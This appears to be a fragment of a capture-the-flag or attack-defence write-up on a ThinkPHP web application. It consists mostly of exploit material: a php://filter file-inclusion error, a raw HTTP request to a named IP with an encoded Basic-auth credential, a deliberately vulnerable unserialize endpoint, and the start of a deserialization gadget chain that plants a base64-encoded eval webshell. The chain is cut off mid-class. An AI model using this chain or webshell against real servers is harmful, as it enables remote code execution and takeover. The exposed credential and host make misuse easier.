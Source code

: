 

```

Warning</b>:  include(): Failed opening 'php://filter/read=convert.base64-encode/resource=index.php' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/public/nationalsb/login.php
```


```
GET /public/index.php?s=/index/Index/hello&s3cr3tk3y= HTTP/1.1
Authorization: Basic QWRtaW4xOTY0NzUyOkRzYVBQUFAhQCNhbXNwZTEyMjE=
Host: 39.99.41.124
Connection: close

```



```php=
<?php
namespace app\index\controller;

class Index extends \think\Controller{
  public function index(){
  	$ip = $_SERVER['REMOTE_ADDR'];
    echo "Warning"."<br/>";
    echo "You IP: ".$ip." has been recorded by the National Security Bureau.I will record it to ./log.txt, Please pay attention to your behavior";
    echo '<meta http-equiv="refresh" content="1;url=http://127.0.0.1/public/test">';  
  }
  public function hello(){
  	unserialize(base64_decode($_GET['s3cr3tk3y']));
    echo(base64_decode($_GET['s3cr3tk3y']));
  }
}

```


/var/www/html/protect.py

```python=
....
```


```php=
<?php
namespace think\cache\driver;

class File {
    protected $options = [];
    protected $tag;
    public function __construct() {
	$this->tag = 'cjbtest';
	$this->options = [
	    'cache_subdir'  => false,
	    'prefix'        => '',
		'path' => 'php://filter/write=convert.base64-decode/resource=../../../../../../../../../../../../../../../../tmp/PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+', // 因为 static 目录有写权限
	    'data_compress' => false
	];
    }
}

namespace think\session\driver;
use think\cache\driver\File;

class Memcached {
```